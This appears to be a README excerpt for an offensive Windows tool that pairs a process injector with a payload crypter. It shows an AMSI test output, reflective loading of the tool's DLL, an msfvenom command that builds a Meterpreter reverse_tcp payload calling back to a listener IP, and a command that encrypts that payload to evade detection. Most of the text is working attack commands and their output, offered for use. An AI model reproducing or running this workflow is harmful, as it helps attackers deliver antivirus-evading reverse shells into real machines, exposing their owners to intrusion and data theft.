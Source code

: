 ```
+ AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386
+ ~~~~
    + CategoryInfo          : ObjectNotFound: (AMSI:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
```

## 2. Usage Crypter and ProcessInjector
### C#

Loads the process injector and payload crypter.
Can be compiled to a DLL and loaded via reflection, or included in a larger .NET Assembly (e.g. [SharpSploit](https://github.com/cobbr/SharpSploit/blob/master/SharpSploit/Evasion/Amsi.cs)).

```
PS > [System.Reflection.Assembly]::LoadFile("C:\Users\vbox\source\repos\Rem_proc_inj\Rem_proc_inj\bin\Debug\Rem_proc_inj.dll")

GAC    Version        Location
---    -------        --------
False  v4.0.30319     C:\Users\vbox\source\repos\Rem_proc_inj\Rem_proc_inj\bin\Debug\Rem_proc_inj.dll

PS > [Rem_proc_inj.execute_program]

IsPublic IsSerial Name                                     BaseType
-------- -------- ----                                     --------
True     False    execute_program                          System.Object
```

## 3. Create sample payload

Just creating a sample payload to demonstrate.
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lport=6666 lhost=192.168.252.5 -f raw -o msftest.bin
```

## 4. Encrypt sample payload file

Encrypt the generated payload and store with a "_enc" suffix, using a given password.
Usage: ex_prog(string password, bool Encrypt, bool Decrypt, string url = "", string localBinPath = "", string outFile = "", string rP = "")

```
PS > [Rem_proc_inj.execute_program]::ex_prog("SUPERSECRETPASSWORD",$true,$false,"","x:\payloads\msftest.bin","x:\payloads\msftest.bin","")
```